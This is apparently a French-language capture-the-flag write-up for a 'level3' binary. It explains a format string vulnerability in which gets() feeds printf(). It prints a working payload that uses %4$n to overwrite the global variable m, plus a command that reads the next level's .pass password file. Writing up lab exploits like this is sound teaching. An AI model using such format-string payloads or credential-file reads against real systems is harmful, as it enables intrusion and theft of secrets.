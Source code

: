 # level3 - Format String Exploitation

## Analyse du Programme

**Structure**
- Le `main()` appelle une fonction `v()`
- Utilisation de `gets()` suivi d'un `printf()`
- Variable globale `m` à l'adresse `0x804988c` dans la section .bss

**Points Clés**
- Adresse de la variable globale `m`: `0x804988c`
- Buffer à l'adresse: `0xbffff520`
- Format string vulnerability dans l'appel à `printf()`

## Exploitation Format String

**Mécanisme**
(voir Ressources/learning.md)

- `printf()` sans arguments traite les valeurs de la pile comme arguments
- Le formateur `%n` écrit le nombre de caractères affichés à l'adresse spécifiée
- `%4$n` accède directement au 4ème argument sur la pile

**Construction de l'Exploit**
1. Écriture de l'adresse de `m` au début du payload
2. Génération de 60 caractères ecrire la valeur souhaitée
3. Utilisation de `%4$n` pour écrire à l'adresse de `m`

## Exploitation

**Commande d'Exploitation**
```bash
(python -c 'print "\x8c\x98\x04\x08" + "%60c" + "%4$n"'; cat) | ./level3
```

**Obtention du Flag**
```bash
cat /home/user/level4/.pass
```

Cette exploitation fonctionne en modifiant la valeur de la variable globale `m` via une vulnérabilité format string, permettant l'exécution du shell.
